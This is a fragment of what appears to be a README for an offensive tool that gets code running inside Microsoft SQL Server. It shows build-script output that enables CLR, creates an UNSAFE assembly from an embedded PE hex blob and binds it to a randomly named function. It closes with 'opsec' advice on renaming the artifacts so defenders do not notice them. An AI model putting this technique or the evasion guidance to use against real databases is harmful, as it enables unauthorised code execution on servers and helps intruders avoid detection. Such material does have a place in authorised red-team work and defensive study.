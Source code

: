 ```

<SNIP>	
```	

Here is an example:

```	
$ .\build.ps1 -option list -show
[+] Compiling listing assembly...
Microsoft (R) Visual C# Compiler version 4.8.9037.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

use msdb
GO

sp_configure 'show advanced options',1
RECONFIGURE
GO

sp_configure 'clr enabled',1
RECONFIGURE
GO

CREATE ASSEMBLY [SBzjuTwx] AUTHORIZATION [dbo] FROM
0x4D5A90000300000004000000FFFF0000B80000000000000040000000000000000000000000000...
WITH PERMISSION_SET = UNSAFE
GO

CREATE FUNCTION [dbo].DjrqPHZh() RETURNS NVARCHAR(MAX) AS EXTERNAL NAME SBzjuTwx.program.run;
GO

<SNIP>	
```	

## Opsec considerations
Both the powershell and python scripts use several assembly, function and class names that are randomized every time the tool is launched. These names could look supicious upon inspection and it is up to the user to modify them to more benign looking names if needed. 

Also the name in disk of the assembly to be reflectively loaded after impersonation (`managed/rrandomnumbers.dll` in case you use build.ps1) ends up in the MSSQL assembly table, so again, you can compile it yourself to a less suspiciously looking name.
